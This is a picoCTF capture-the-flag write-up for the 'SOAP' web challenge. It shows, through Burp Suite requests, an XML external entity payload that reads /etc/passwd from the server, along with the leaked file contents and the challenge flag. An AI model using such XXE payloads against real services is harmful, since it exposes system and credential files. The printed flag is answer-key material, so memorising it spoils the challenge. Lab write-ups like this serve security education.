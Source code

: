 # SOAP

* Author: Geoffrey Njogu
* Location: https://play.picoctf.org/practice/challenge/376
* Tags: Web Exploitation, XXE

## Problem

> The web project was rushed and no security assessment was done. Can you read the /etc/passwd file? Additional details will be available after launching your challenge instance.

The challenge came with a hint that reads "XML external entity Injection."

## Solution

I started by launching the instance associated with this challenge (Figure 1) and got the following website launched: ``http://saturn.picoctf.net:50223/`` (Figure 2). There are different education programmes listed (Figure 2) and there are three buttons that give different information about each of the programmes (Figure 3, 4) when clicked. 

After clicking on a couple of them, I went back to Burp Suite Pro and noticed that a couple of POST requests were made to the ``/data`` subdirectory. Based on the given hint and tags, I easily worked out that this required an XXE injection attack. I brushed up on this attack by looking it up and found some articles discussing it [1][2]. 

I assumed an XXE injection vulnerability vector and attempted to exploit it. I sent one of the POST requests to Burp's repeater so that I can modify its requests (Figure 6, 7). I added the following to the request to see if I can get ``/etc/passwd``:

```xml
<?xml version="1.0" encoding="UTF-8"?><data><ID>
<!ENTITY xxe SYSTEM  "file:///etc/passwd" >]>
</ID></data>
```

I sent the request and it seemed to fail:

```xml
HTTP/1.1 200 OK
Server: Werkzeug/2.2.3 Python/3.8.10
Date: [redacted]
Content-Type: text/html; charset=utf-8
Content-Length: 0
Connection: close
```

I tried another payload:

```
<?xml version="1.0" encoding="UTF-8"?><data><ID>2
[<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
</ID></data>
```

Another response with nothing in it was returned. After a while with experimenting with different request payloads, I finally succeeded! I used the payload:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data><ID>&xxe;</ID></data>
```

And got:

```
HTTP/1.1 200 OK
Server: Werkzeug/2.2.3 Python/3.8.10
Date: [redacted]
Content-Type: text/html; charset=utf-8
Content-Length: 1023
Connection: close

Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_e79a75d4}
```

The flag is: ``picoCTF{XML_3xtern@l_3nt1t1ty_e79a75d4}``. 

## References

1. https://portswigger.net/web-security/xxe
2. https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing
